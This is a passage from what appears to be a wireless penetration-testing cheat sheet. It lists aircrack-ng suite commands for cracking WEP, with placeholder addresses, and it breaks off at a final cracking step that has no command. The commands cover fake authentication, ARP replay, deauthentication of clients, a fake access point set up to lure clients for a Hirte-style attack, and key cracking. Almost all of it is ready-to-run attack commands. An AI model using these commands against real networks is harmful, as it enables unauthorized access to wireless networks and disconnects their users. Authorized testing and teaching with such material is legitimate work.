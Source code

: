 ```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --fakeauth 0
```

To monitor the number of captured IVs, run `airodump-ng` against a specified WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Start a standard ARP request replaying against a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid -h FF:FF:FF:FF:FF:FF --arpreplay
```

[Optional] Deauthenticate clients from a specified WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```

Crack the WEP authentication:

```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid replay_arp*.cap
```

### Hitre Attack

This attack targets clients, not wireless access points.

[Optional] Set up a fake WEP WiFi network:

```fundamental
airbase-ng wlan0mon -c 8 -a FF:FF:FF:FF:FF:FF --essid essid -W 1 -N
```

If needed, turn up a wireless network interface power to missassociate clients to the fake WiFi network, see how in [section one](#1-configuration).

Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 --bssid FF:FF:FF:FF:FF:FF --essid essid --write airodump_essid_results
```

Start replaying packets to clients within your range:

```fundamental
aireplay-ng wlan1 -h FF:FF:FF:FF:FF:FF -e essid --cfrag -D
```

[Optional] Deauthenticate clients from the real/fake WiFi network:

```fundamental
aireplay-ng wlan1 -a FF:FF:FF:FF:FF:FF -e essid --deauth 10
```

Crack the WEP authentication:
